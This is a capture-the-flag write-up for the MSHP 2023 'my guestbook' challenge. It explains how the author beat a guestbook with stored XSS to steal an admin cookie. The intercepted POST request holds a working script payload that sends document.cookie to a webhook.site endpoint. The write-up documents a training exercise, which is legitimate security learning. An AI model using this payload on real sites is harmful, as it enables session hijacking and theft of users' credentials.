


# MSHP 2023 - [1] my guestbook  

**CTF Name:** MEGA SEKURAK HACKING PARTY 2023  
**Challenge name:** [1] my guestbook  
**Challenge description:**  
> Someone wrongly implemented a security mechanism of cookies. Try to receive it, and then... see what needs to be done.  
> UPDATE:  
> Admin logs in every full hour! Also, there is also new hint!  

**Challenge URL:** http://ctf.securitum.ninja/ctfY/  
**Challenge category:** websec/persistentXSS  
**Challenge points:** 100  

* * *  

## Steps to solve  
The website we were presented with consisted of title header, login form, comment-adding form and of course list of comments (oldest first):  
  

Whenever you pressed "Submit" button, the contents of message input box were sent and appended to the bottom of guestbook.  

> My thought at the time:  
> If there is no form validation present, then we could perform *persistent XSS attack*.  

I intercepted POST request with *Burp Suite*, so that I could manipulate the message content and repeat the request.  

> Why did I think about creating own POST with Burp?  
> Oh, that was necessary, because at the time website form accepted input of 3-character long strings only (probably one of the participants made this change to make the challenge harder for everybody else)  
> POST allowed me to send longer (than 3-chars) messages  

But what did I intend to do exactly? The challenge description said something about cookies, and header subtext mentioned comments being read every full hour, so... let's find out what owner's cookies look like! *webhook.site* was very helpful to do *admin session leakage* as it served as endpoint under my own control, meaning I could read incoming requests.  

First I intercepted POST request with safe message payload, to then manipulate it with my own malicious code:  
```http  
POST /ctfY/ HTTP/1.1  
Host: ctf.securitum.ninja  
Content-Length: 149  
Cache-Control: max-age=0  
Upgrade-Insecure-Requests: 1  
Origin: http://ctf.securitum.ninja  
Content-Type: application/x-www-form-urlencoded  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Referer: http://ctf.securitum.ninja/ctfY/  
Accept-Encoding: gzip, deflate  
Accept-Language: en-US,en;q=0.9  
Connection: close  

message=<script>fetch('https://webhook.site/e4c3c9cc-fa48-4865-801c-22cbc4d25eab',+{+method:+'POST',+mode:+'no-cors',+body:+document.cookie+});</script>  
```  

I checked the website source code, and my payload was sucessfully attached in comments section - now it was time to wait.   
As you can already imagine - whenever the admin would refresh the site, he would fetch my *webhook.site* link with his admin cookie attached.  

And indeed, at the nearest full hour - the response came:  
  

```  
flag=MSHP_%7BSGwP%3D7Z%40%26jJcVz%23%7D  
```  

Which after URL decoding (with *urldecoder.io* or *CyberChef*), resulted in:   
**FLAG:** MSHP_{SGwP=7Z@&jJcVz#}  

## Additional comments  
It was hard at first to understand what functionality was intended by organizers, and what behaviour was added by the participants. As the assumption of no form validation was true, thus everybody could change website behaviour and looks the way they wanted to.  

Also, even though the website had no cookies present (in non-authenticated session), other participants created false flags there, to mislead their competitors - guiding in wrong direction.